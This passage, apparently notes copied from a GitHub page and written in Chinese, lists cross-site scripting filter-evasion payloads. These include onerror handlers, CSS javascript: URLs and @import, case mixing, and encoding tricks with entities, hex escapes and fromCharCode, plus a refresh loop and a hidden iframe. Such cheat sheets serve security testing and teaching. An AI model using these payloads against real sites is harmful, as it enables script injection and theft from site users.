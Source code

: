 * 产生自己的事件

  ```
  <img scr="#" onerror=alert(1);>
  onclick
  onResume
  onReverse
  ....
  ```

* 利用CSS

  ```
  <img style="background-image:url(javascript:alert(1))">
  //expression好像不再使用
  //<img style="background-image:expression(alert(1))">
  <style>@import 'javascript:alert(1)';</style>
  ```

* 扰乱过滤规则

  ```
  //转换大小写，大小写混淆
  //双引号，单引号，不使用引号
  //
  //全角字符
  // /**/
  //样式标签中的\和\0,转码，改变编码中0的个数
  //注释
  
  ```

* 字符编码

  ```
  <img src="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
  另：换成10进制也行，每个数前加0也行
  
  <script>eval(\x61\x6c\x65\x72\x74\x28\x31\x29\x3b)</script>//16进制
  
  <img src="javascript:eval(String.fromCharCode(97,108,101,114,116,40,49,41,59))">//10进制
  
  //脚本加密：JScript Encode VBScript Encode
  ```
  
  

* 拆分

  

* 其他

  ```
  //不断刷新
  <meta http-equiv="refresh" content="0;">
  //嵌入其他网站的链接
  <iframe src=http://www.xxx.com width=0 height=0></iframe>
  ```
